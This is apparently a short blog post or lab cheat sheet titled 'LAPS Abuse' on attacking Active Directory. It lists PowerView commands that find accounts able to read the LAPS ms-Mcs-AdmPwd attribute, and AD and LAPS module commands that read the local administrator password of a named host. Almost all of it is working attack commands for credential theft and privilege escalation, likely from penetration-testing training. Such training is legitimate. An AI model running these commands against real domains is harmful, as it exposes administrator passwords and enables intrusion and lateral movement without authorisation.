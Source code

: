 ```yaml
---
layout: post
date: 23/11/2022
author: Aswin Gopalakrishnan
title: LAPS Abuse
---
```


## PowerView

### Find Users Who Can Read Passwords in Clear Text
```bash
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {
    ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and
    ($_.ActiveDirectoryRights -match 'ReadProperty')
} | ForEach-Object {
    $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_
}
```

## AD Module

1. Import All Module
```bash
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```
2. Get Permissions
```
C:\AD\Tools\Get-LapsPermissions.ps1
```
3. View Password
```bash
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
The `Get-AdmPwdPassword` command uses the LAPS module.

---

[back](../adprivesc.html)